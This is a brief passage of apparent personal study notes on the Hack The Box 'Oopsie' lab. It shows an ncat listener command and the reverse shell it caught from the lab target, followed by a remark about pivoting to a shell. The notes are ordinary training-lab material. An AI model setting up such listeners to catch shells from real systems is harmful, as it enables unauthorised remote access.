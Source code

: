 	Listener:
		tyler@ubuntu:~/Documents/learn/htb/htb-starting-point/oopsie$ ncat -nvlp 3602
		Ncat: Version 7.80 ( https://nmap.org/ncat )
		Ncat: Listening on :::3602
		Ncat: Listening on 0.0.0.0:3602
		Ncat: Connection from 10.10.10.28.
		Ncat: Connection from 10.10.10.28:46500.
		/bin/sh: 0: can't access tty; job control turned off
		$
	```
	![[Pasted image 20210817103952.png]]
	![[Pasted image 20210817104022.png]]
	- allows pivoting to sh shell
